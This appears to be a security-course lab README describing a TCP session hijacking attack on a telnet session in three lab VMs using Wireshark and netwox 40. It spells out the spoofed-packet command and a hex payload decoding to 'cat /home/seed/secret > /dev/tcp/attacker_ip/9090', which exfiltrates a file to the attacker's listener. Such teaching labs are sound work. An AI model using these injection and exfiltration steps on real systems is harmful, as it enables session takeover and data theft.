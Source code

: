 ## TCP Session Hijacking Attack

### Requirements 

In this lab, we will hijack a telnet session (between the victim client and the victim server) and inject a malicious command.

### Setup

3 Linux VMs. VM1 as the victim (telnet client); VM2 as the telnet server; VM3 as the attacker. The 3 VMs reside in the same network.

### Steps

1. let the client connect to the server using telnet.

![alt text](lab-tcp-hijack-telnet.png "Lab tcp session hijacking telnet")

2. the client creates a secret file on the server.

![alt text](lab-tcp-hijack-cat.png "Lab tcp session hijacking cat")

3. let the attacker start monitoring network traffic using wireshark.

![alt text](lab-tcp-hijack-capture.png "Lab tcp hijack capture")

4. client produces some telnet packets. (any telnet packets, you can just type a command like *ls*).

![alt text](lab-tcp-hijack-ls.png "Lab tcp hijack ls command")

5. attacker stops wireshark capturing, and navigates to the latest packet sent from the client to the server.

![alt text](lab-tcp-hijack-capture1.png "Lab tcp hijack latest tcp capture - part 1")
![alt text](lab-tcp-hijack-capture2.png "Lab tcp hijack latest tcp capture - part 2")
![alt text](lab-tcp-hijack-capture3.png "Lab tcp hijack latest tcp capture - part 3")

6. the above packet provides the information which the attacker needs to know in order to perform the tcp session hijacking attack. now, the attacker, mimicking the **client**, needs to use the *netwox 40* command to inject a telnet command. The command should be in this format: # sudo netwox 40 --ip4-src *source_ip* --ip4-dst *destination_ip* --tcp-src *source_port* --tcp-dst *destination_port* --tcp-seqnum *sequence_number* --ip4-ttl *ttl_value* --tcp-window *window_size* --tcp-ack --tcp-acknum *acknowledgment_number* --tcp-data "putyourdatahere,in hex format". Remember to replace these italic texts with information captured in wireshark. To run the command, the attacker opens a terminal window, types the *netwox 40* command, and press enter.

**Note**: because the attacker is mimicking the client, thus the source ip address needs to be the client's IP address; from the captured latest packet, we can see the sequence number is *2523450797*, the acknowledgment number is *311613137*; the source port (in this example) is 57502, the destination port is 23. the tcp window size (in this example) is 245, the time to live (ttl) value is 64. The tcp data we can use is: 0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f61747461636b65725f69702f39303930200d.

**Explanation**: why the tcp data is "0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f61747461636b65725f69702f39303930200d"? Because the telnet command we want to inject is: "cat /home/seed/secret > /dev/tcp/attacker_ip/9090", and we want this command to be sandwiched by two newline signs "\r", so that the command will not be concatenated with other random strings. assume the atacker's IP address is 172.16.77.130, then this is how we can convert this whole thing into hex:

![alt text](lab-tcp-hijack-command-to-hex.png "Lab tcp hijack - the tcp data")

Thus in this example, the netwox 40 command we are going to type is:
![alt text](lab-tcp-hijack-command.png "Lab tcp hijack - the netwox command")

7. before pressing enter, the attacker needs to open another terminal window so that the attacker can listen on a port - we will choose port 9090.

![alt text](lab-tcp-hijack-listening.png "Lab tcp hijacking attack listening on port 9090")

- after pressing enter:
![alt text](lab-tcp-hijack-after-enter.png "Lab tcp hijacking attack after enter command")

7. once the attacker pressed enter to execute the above *netwox 40* command, if the attack is successful, the victim server's secret file will be displayed in the attacker's terminal window:

![alt text](lab-tcp-hijack-success.png "Lab tcp session hijacking attack successful")

This indicates that the attack is successful and concludes the lab.
